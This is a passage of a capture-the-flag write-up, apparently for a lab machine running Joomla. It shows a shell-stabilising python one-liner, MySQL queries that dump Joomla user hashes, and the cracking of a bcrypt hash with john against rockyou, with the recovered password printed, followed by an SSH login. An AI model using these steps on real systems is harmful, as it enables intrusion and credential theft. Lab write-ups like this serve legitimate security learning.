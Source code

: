 
---

# Privilege Escalation
## Local Enumeration
Once obtained reverse shell i make the shell stable with the follow python command

```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

now i use the credentials founded previusly to take access on mysql

![[MysqlDataBases.png]]

In the database. i found a database named **joomla** & from this i extracted the user information on this machine.

```php
use joomla;  
show tables;  
select username,password from sd4fg_users;
```

![[Pasted image 20240225220159.png]]


Now its time to crack the hash using **john**, add the hash in one file

```bash
echo "$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12" > hash
```

and now crack them

```bash
┌─[systemerror@parrot]─[~]
└──╼ $john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tequieromucho    (?)
1g 0:00:00:06 DONE (2024-02-23 23:14) 0.1543g/s 216.6p/s 216.6c/s 216.6C/s lacoste..harry
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Connect to the machine suing **ssh** and the credential founded
```bash
ssh logan@10.10.11.242
```

search the user.txt its very easy..
